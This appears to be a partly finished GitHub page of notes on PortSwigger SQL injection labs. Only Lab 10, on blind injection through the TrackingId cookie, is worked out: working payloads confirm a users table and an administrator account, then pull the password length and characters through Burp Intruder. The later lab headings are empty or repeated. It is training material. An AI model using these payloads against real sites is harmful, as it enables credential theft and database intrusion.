 <div align="center">
  <h1>-------------------------- SQLi LABS 002 ---------------------------</h1>
</div>

# [CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Lab 10: Blind SQL injection with conditional responses [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses#)
- This injection will be used in `Cookie` section in `TrackingID` input field of the page.

```
TrackingId=mCKLbQonMlRUp42B' AND '1'='1;  #Returns 'Welcome Back', This boolean condition means the page is vul to Bilnd SQLi
TrackingId=mCKLbQonMlRUp42B' AND '1'='2; #Doesn't Returns 'Welcome Back' 

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users LIMIT 1)='a;  #Confirming that there is a table called users
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator')='a; #confirming that there is a user called administrator

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a #confirming that the password is greater than 1 character in length.
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator' AND LENGTH(password)>19)='a; #Password is 20 char long
```


### After determining the length of the password, the next step is to `test the character at each position` to determine its value.
- This step involve `Intruder` Module, set the Type: Sniper, Position: $a$, Intruder Setting: Grep-Match 'Welcome Back'
- Injection: `TrackingId=mCKLbQonMlRUp42B' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§;`
- Repeat the same step for every position i.e SUBSTRING(password,2 to 20,1)
- On correct position guessed by payload, it'll flag the `Welcome Back` in result.
- Take the guessed char & note it down.
- ![image](https://github.com/user-attachments/assets/c07e3d8c-e54b-40b1-a268-48a0263e764e)

### Related Concepts: SUBSTRING(string, start_position, length)
```
string: The string from which you want to extract the substring.
start_position: The position in the string to start extracting (1-based index).
length: The number of characters to extract.
```

## Lab 11: Blind SQL injection with conditional errors [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors)


## Lab 11: Visible error-based SQL injection [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based)



## Lab 12: Blind SQL injection with time delays and information retrieval [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-time-delays/sql-injection/blind/lab-time-delays-info-retrieval)


## Lab 12: [Link]()
## Lab 12: [Link]()
## Lab 12: [Link]()
## Lab 12: [Link]()


